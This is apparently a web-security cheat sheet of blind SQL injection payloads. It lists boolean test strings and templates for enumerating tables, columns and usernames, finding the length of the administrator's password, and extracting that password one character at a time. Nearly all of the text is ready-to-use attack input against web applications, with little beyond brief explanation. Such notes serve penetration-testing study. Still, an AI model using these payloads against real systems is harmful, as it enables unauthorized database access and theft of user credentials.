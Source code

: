 
<br><br><br>

#### SQLi Blind Conditional Responses Examples

* Identify if the below payloads result in a notable difference in the responses.  The key here is to know how the application responds to a true statement (1=1) vs a false statement (1=2):

    * ' and '1'='1

    * ' and '1'='2

    * ' and 1=1--

    * ' and 1=2--


* Once we can identify how the application responds to a True vs False query, we can use the below payloads to extract useful information.  Depending on the response we receive, we know that the query injected is either valid or invalid.

<br>

* **Payloads to enumerate table names.**  Even though UNION attacks won't do us any good here in Blind SQLi, this technique can still be used to enumerate table names:

```
'and (select 'a' from {tableName} limit 1)='a
```
```
'union select 'a' from {tableName} where 1=1--
```


* **Payloads to enumerate column names.**  The 2nd payload requires to know at least 1 username on the database:

```
'union select {columnName} from users where 1=1--
```
```
'union select 'a' from users where {columnName}='administrator'--
```



* **Payloads to enumerate valid users that are in a column called username:**

```
'and (select 'a' from users where username='{userName}')='a
```


* **Payloads to determine the length of a user's password.  This payload uses a table called users and 2 columns called username and password:**

```
' and (select 'a' from users where username='administrator' and length(password)>10)='a
```


* **Payloads to extract the password of a user 1 character at a time:**

```
' and (select substring(password,1,1) from users where username='administrator')='{character}
```
